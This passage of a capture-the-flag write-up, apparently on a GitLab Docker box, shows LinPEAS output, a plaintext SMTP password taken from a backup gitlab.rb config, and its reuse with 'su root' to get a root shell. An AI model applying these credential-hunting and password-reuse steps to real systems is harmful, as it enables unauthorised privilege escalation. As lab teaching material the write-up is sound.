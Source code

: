 ```bash
CapEff: 0000000000000000                                                                                                                                                                                            
CapBnd: 0000003fffffffff                                                                                                                                                                                            
CapAmb: 0000000000000000

╔══════════╣ .sh files in path                                                                                                                                                                                      
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path                                                                                                                               
/opt/gitlab/embedded/bin/jemalloc.sh                                                                                                                                                                                
                                                                                                                                                                                                                    
╔══════════╣ Unexpected in root                                                                                                                                                                                     
/root_pass                                                                                                                                                                                                          
/.dockerenv                                                                                                                                                                                                         
/assets                                                                                                                                                                                                             
/RELEASE
```

LinPEAS also found a few RSA keys inside of the GitLab config files. I do not even try them, because they would (if they work) only give me a shell as git). I will not try the different methods of privesc that I found with the help of LinPEAS.

I tried cracking the password for admin, but that did not work. All the other methods to exploit did also not work. I found a file in /opt/backup called gitlab.rb. I found a password in it (which is for SMTP):

```bash
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

Let's check for a password reuse:

```bash
git@gitlab:/opt/backup$ su root
Password: 
root@gitlab:/opt/backup# id
uid=0(root) gid=0(root) groups=0(root)
root@gitlab:/opt/backup#
```
